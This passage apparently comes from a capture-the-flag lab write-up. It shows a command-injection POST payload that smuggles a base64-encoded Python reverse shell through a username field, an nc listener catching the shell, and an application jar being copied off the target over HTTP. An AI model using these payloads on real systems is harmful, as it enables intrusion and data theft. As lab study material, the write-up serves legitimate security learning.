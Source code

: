Using <https://revshells.com>, I create a reverse shell command-line and `base64` encode it, and pass it to the web app via Burp with instructions to decode the string and execute it. The data of the POST request looks like this:

```text
host=localhost&username=-V;echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw=="|base64${IFS}-d|bash;echo${IFS}
```

With that, I am able to catch the shell:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.230] 58940
$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

Checking the current working directory:

```console
$ ls -lh  
ls -lh
total 58M
-rw-r--r-- 1 root root 58M Aug 11 00:45 cloudhosting-0.0.1.jar
```

I want to took a look at that `jar` file. I could manipulate it on the target, but I'll transfer it to my machine for convenience.

On the target:

```console
$ python3 -m http.server 8888
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

And then I fetch it to my machine:

```console
$ wget ${t}:8888/cloudhosting-0.0.1.jar
--2023-10-02 16:30:24--  http://10.10.11.230:8888/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’
[...]

2023-10-02 16:31:22 (1020 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

Now I'll unzip the `jar` and check it out:
